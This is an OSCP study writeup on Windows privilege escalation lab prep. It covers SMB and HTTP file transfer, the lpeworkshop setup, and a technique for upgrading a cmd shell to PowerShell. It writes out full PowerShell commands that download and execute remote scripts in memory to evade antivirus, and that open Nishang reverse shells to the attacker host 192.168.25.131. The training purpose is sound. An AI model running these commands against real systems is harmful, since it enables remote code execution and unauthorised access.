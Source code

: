 ```yaml
---
title: OSCP Windows PrivEsc - Part 1
description: Windows Privilege Escalation for OSCP
categories: [oscp]
tags: [oscp, Offensive Security]
---
```


As stated in the [OSCP Review Post](/oscp/OSCP-Review), I came across many good resources for Linux Privilege Escalation but there were just a few for Windows. [lpeworkshop](https://github.com/sagishahar/lpeworkshop) being one of those, lacks a good walkthrough. In this writeup, we will take a look at file transfer over smb and http, how to migrate to PowerShell from a standard cmd shell and lpeworkshop setup.

---

## File transfer over SMB

While there are numerous methods to transfer files from your host Kali to victim Windows, I found SMB to be the most reliable one. 

- Install impacket on your kali (It comes preinstalled most of the times, located at /usr/share/impacket/examples/).

- Start the SMB server by running `smbserver.py`:  

![image-center](/assets/images/oscp/1/smbserver.png)

This will share the `/tmp/smbshare` directory over smb as `myshare`.

- All the files inside `/tmp/smbshare` can now directly be accessed on the victim windows:  

![image-center](/assets/images/oscp/1/smbshare.png)

- For more convenience, this SMB share can be  mounted directly on the windows as a drive:

	- Check currently mounted shares by running `net view`:

	- Mount your `myshare` as drive `Z` (or anything else) using the command
	`net use Z: \\192.168.25.131\myshare`  

![image-center](/assets/images/oscp/1/smbmount.png)

- Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.  
![image-center](/assets/images/oscp/1/smbmount2.png)

- The mount can be disconnected with command `net use Z: /d` once you are done with it.

Another easy way to transfer files is over http using python's SimpleHTTPServer. We will take a look at it and download files using PowerShell in the following section.

---

## PowerShell

PowerShell provides an easy way to perform post exploitation and privilege escalation activities with the help of various PS modules. Two of the most useful modules that I came across were: [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [Powersploit's PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

While most of the newer Windows OS have a functional antivirus monitoring and prohibiting the execution of programs from storage, PowerShell provides us with an option to bypass this and run programs directly from the memory. This can help us evade the antivirus and easily run exploits or post-exploitation scripts.

1. Share your files using python's `SimpleHTTPServer` or Apache.   
![image-center](/assets/images/oscp/1/http1.png)
2. On the victim's cmd shell, execute the command:
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://192.168.25.131/testfile'))"`
This downloads `testfile` and executes it in the memory.  
![image-center](/assets/images/oscp/1/http2.png)

### Upgrading to PowerShell from cmd using Nishang

The Invoke-PowerShellTcp.ps1 can be used to get an interactive Reverse or Bind PowerShell from the target. This script is able to connect to an attacker's netcat listener using -Reverse switch or an attacker's netcat can connect to this script Bind to a specific port on the victim when using -Bind switch. For this exercise, we are assuming that you already have access to the victim (web command injection or a cmd shell using eternalblue/any other exploit) and will look at how this cmd shell can be upgraded to an interactive PowerShell.

### Method 1: Using HTTP to evade Antivirus

We will share our `Invoke-PowerShellTcp.ps1` over http, download it to the victim, and execute it inside memory to send a reverse PowerShell.

1. Start python's `SimpleHTTPServer` and copy the `Invoke-PowerShellTcp.ps1` to that directory.   
![image-center](/assets/images/oscp/1/httpps1.png)

2. Start netcat listener on your Kali (always prefer using standard ports such as 80,443,53 since they have less chances of being blacklisted on the victim's firewall).

3. On the victim, we can download and execute this script using command: `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://192.168.25.131/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 192.168.25.131 -Port 443"`  
![image-center](/assets/images/oscp/1/httpps2.png)

This sends an interactive reverse PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/httpps3.png) 

### Method 2: Using SMB (Gets blocked by Windows AV)

While this method is convenient for sharing multiple files over smb, but since we are executing `Invoke-PowerShellTcp.ps1` from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. 

1. On your Kali, copy `Invoke-PowerShellTcp.ps1` inside `myshare` and start the smbserver.  
![image-center](/assets/images/oscp/1/ps1.png)

2. Start netcat listener on Kali.

3. You can mount the smbshare as Z, change dir to Z, and execute the script with command:
`powershell.exe -nop -ep bypass -c "Import-Module .\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddress 192.168.25.131 -Port 443"`  
![image-center](/assets/images/oscp/1/ps2.png)

(Note: I disabled windows AV for this exercise)

This sends a fully interactive PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/ps3.png)

---

### Powershell commands breakdown

Let's see the breakdown:
`powershell.exe -nop -ep bypass -c "<Command>"` : We are executing powershell using three arguments:

1. `-nop` or `NoProfile` : This option means that the currently active user’s profile will not be loaded.
2. `-ep bypass` or `-ExecutionPolicy Bypass` : Execution Policy restricts script execution on most systems on the default setting This can be overcome by giving Bypass value to the value of -ExecutionPolicy parameter. 
3. `-c` or `-Command` : This is used to specify a command to be executed.
4. `"iex ((New-Object Net.WebClient).DownloadString('http://192.168.25.131/Invoke-PowerShellTcp.ps1'))` : This part of the command downloads the `Invoke-PowerShellTcp.ps1` file.
5. `Invoke-PowerShellTcp -Reverse -IPAddress 192.168.25.131 -Port 443"` : These are the arguments passed to `Invoke-PowerShellTcp.ps1` module. More arguments or examples can be seen on Nishang's github.


## lpeworkshop
For the setup, we need three things:

1. Windows 7/10
We can grab a free copy of Windows Evaluation versions directly from [Microsoft](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) or from [magnetikonline's github repo](https://github.com/magnetikonline/linux-microsoft-ie-virtual-machines). Prefer getting a Windows 7 as this workshop was developed and tested on a Windows 7 (SP1) x64 host. 

2. [Windows Exercises Setup Script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe_windows_setup.bat)

3. [Tools for Windows Exercises](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h_mPzFU/view?usp=sharing) (7z archive password: lpeworkshop)


[Note: Take a snapshot of the windows VM before starting the setup]  
The setup is fairly simple: Copy the lpe_windows_setup.bat script to VM and run it as an Administrator. 

---

## Additional resources

- https://hacknpentest.com/windows-privilege-escalation-using-powershell/
- https://github.com/J3rryBl4nks/LPEWalkthrough